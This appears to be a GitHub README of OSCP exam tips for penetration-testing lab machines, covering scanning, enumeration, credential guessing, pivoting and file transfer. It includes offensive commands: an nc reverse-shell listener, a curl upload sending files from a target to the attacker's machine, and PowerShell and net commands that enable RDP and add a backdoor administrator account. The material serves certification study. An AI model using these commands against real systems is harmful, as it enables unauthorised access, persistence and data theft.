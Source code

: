 ## oscp-tips ##
### Tips and Tricks for OSCP and Beyond! ###

1 - Run a quick port scanner like threader3000 or rustscan first. You can save good amount of time by this way, for example threader3000 scans all ports and suggests nmap only for open ports.

2 - Run nmap -sS for all ports, compare open ports with previous scan.

3 - Run -sU (UDP) for well-known ports.

4 - Run gobuster in dir mode for all http/https ports with common world list. See if anything interesting.

5 - Run gobuster in fuzz mode with common world list.

6 - Run gobuster recursively for anything interesting, like you find out a script directory, try to find out directories within script. You should do this upto 3-4 level.

7 - Run gobuster for file extension using -x, like for php or aspx.

8 - Check UDP scan, see if SNMP is allowed or not. If SNMP port is open use snmpwalk with well-known default community strings.

9 - Run snmp with extended MIB, check hacktricks for more details.

10 - Check HTML code, check title of the page, sometimes you will get vulnerable system name from title itself.

11 - Check nmap scan, try to connect to every port using telnet or nc. Send some random keys and see the response. You can also adjust the speed of scan if not getting desired results, for example try with -T2.

12 - Check hacktricks (https://book.hacktricks.xyz/) if you don't know or aware about pentesting of a port or service.

13 - Use rpcclient to enum users and other details if RPC ports are open.

14 – Revert machines and perform scan again.

15 – Listen reverse shell on same ports which are open on victim. For example, if port 445 is open on victim, bidirectional traffic might be allowed on same port too. You can use “nc -lvnp 445” to catch reverse shell on Kali in that case, if others are not working. Try 
port 80 and 443 as well.

16 – Always try default credentials wherever applicable. For example, admin/password, administrator/password or admin/admin. Search google for default credentials as well.

17 – Always try username and password as machine name as credential. For example, if machine name is “berlin”, try to login FTP (or any other service) with berlin/berlin. Try username without password.

18 – If machine is running a portal with employee name (or email), they can be potential usernames. Make a list and use it for spraying.

19 – Use “updog” to transfer data between target and Kali. You can upload data from target to Kali using below command.

curl.exe -v -XPOST -F "file=@./SharpHound.ps1;filename=SharpHound.ps1" -F "path=." http://192.168.45.229:9090/upload

Please note that for above command file “SharpHound.ps1” should be saved in same directory from where you are running command. You can use impacket-smbserver as well.

20 – If using msfvenom reverse shell, use msfconsole multi handler to catch it. 

21 - Compile C/C++ exploit with "-static" flag, it will allow to include all required libraries as few might be missing on target. You can avoid “GLIBC not found” error by compiling with “-static”.

22 – If you can get root on a Windows machine (standalone or form AD set), install nmap on that and scan remaining machines from there. Scan will be very fast, you will surely save time.

23 – If you are not able to copy files directly to target machine copy it to another target and copy from there. For example, if you have root access on MS01 and low-level access on MS02. It is possible that you might not be allowed to copy files (like winPEAS) 
directly from Kali to MS02. Create a share folder on MS01, copy files to that folder. Now you can copy files from MS01 to MS02.

24 – Use ligolo-ng for pivoting between machines. You can use script from https://github.com/isr4r/misc-scripts/blob/master/ligolo.sh to configure ligolo easily.

25 – Use chisel for local port forwarding. For example, a service is running on target which is only locally allowed (or from 127.0.0.1). You should use chisel in this situation to open access for this service from Kali.

26 – Always check for ports open or allowed locally (for 127.0.0.1). You can connect to these ports on same target machine using “telnet localhost <port number>”. It will give you an idea if something interesting is running.

27 – For AD Set, after getting system level access, which might be over CLI, create a new account as local admin, enable RDP, login and do further enum like running mimikatz. You can use below commands to create user and enable RDP.

For RDP (PowerShell commands)

•	Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0

•	Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

For Creating User

•	net user user1 Pass123 /add 

•	net localgroup Administrators user1 /add

28 – Try reverse shell from https://www.revshells.com/, keep trying as one of them will work in lab and in exam too.

29 – Try smbclient, FTP, rpcclient as null user or anonymous user or guest user as well. For example,

•	smbclient -U “” -L 192.168.120.20  

30 – If machine has an open source project check its github or code repo to understand directory structure.


